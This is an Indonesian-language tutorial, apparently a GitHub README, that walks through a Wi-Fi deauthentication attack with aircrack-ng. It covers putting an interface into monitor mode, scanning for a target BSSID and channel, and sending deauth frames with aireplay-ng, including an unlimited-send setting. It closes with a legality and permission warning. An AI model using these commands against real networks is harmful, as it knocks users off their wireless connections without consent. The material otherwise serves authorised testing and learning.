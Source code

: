 # Deauthentication Attack dengan `aircrack-ng` di Linux

Berikut panduan dasar untuk melakukan serangan deauth menggunakan `aircrack-ng` pada sistem berbasis Ubuntu/Debian (mungkin identik pada sistem lain):

---

## Prasyaat

- Kartu Jaringan yang support mode monitor dan packet injection (contoh: Atheros AR9565)
- `aircrack-ng` terpasang, jika belum:
  
  ```bash
  sudo apt install aircrack-ng
  ```

## Langkah-langkah

1. **Buka Terminal**: Tekan `Ctrl + Alt + T` untuk membuka terminal.

2. **Periksa Antarmuka Jaringan**: Cek nama antarmuka jaringanmu (contoh: wlan0, wlp3s0), gunakan perintah:
   
    ```bash
    iwconfig
    ```

3. **Masukkan Antarmuka jaringan ke mode monitor**: Pakai `airmon-ng`. Ganti `wlan0` dengan nama antarmuka jaringanmu:
   
    ```bash
    sudo airmon-ng start wlan0
    ```
    Mungkin airmon-ng akan mengganti nama antarmukamu (contoh: `wlan0mon`, `wlp3s0mon`).

4. **Cek Ulang Nama Antarmuka Jaringan**: Gunakan kembali `iwconfig`:

   ```bash
   iwconfig
   ```
   Cek apakah nama antarmuka berubah (contoh: `wlan0mon` `wlp3s0mon`).

5. **Pidai Jaringan}**: Gunakan `airodump-ng` untuk memindai jaringan sekitar dan catat channel dan BSSID (alamat MAC) target:

   ```bash
   sudo airodump-ng wlan0mon
   ```
   Ini akan memindai jaringan di semua channel. Tekan `Ctrl+C` untuk berhenti.

6. **Pindai Jaringan Target**: Setelah channel target diketahui, pakai `--channel` dan pindai ulang.
   
   ```bash
   sudo airodump-ng wlan0mon --channel 1
   ```
   Gantu `1` dengan channel targetmu.

7. **Jalankan Serangan Deauthentication**: Buka terminal baru dan lakukan serangan dengan:

   ```bash
   sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
   ```
   Ganti `<BSSID>` dengan BSSID target.

   `-0` diperlukan untuk deauthentication.\
   `5` adalah jumlah berapa kali paket deauth dikirimkan. Atur sesuai kebutuhan. `0` berarti tanpa batas.

8. **Pantau AKtiviats**: Kembali ke layar `airodump-ng`. perangkat yang terputus dan mencoba menyambung ulang harusnya terlihat.

9. **Matikan Mode Monitor**: Setelah selesai, matikan mode monitor dengan:

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
   Ganti `wlan0mon` dengan nama antarmuka jaringanmu jika berbeda.

## Catatan!!
- **Peringatan**: Serangan deauthentication dapat menjadi ilegal jika dilakukan tanpa otorisas yang tepat. Pastikan Anda memiliki izin sebelum melakukan pengujian tersebut.
- Gunakan secara bijak dan di lingkungan terkontrol.
- Perhatikan hukum dan peraturan yang terkait dengan keamanan jaringan nirkabel di wilayah Anda
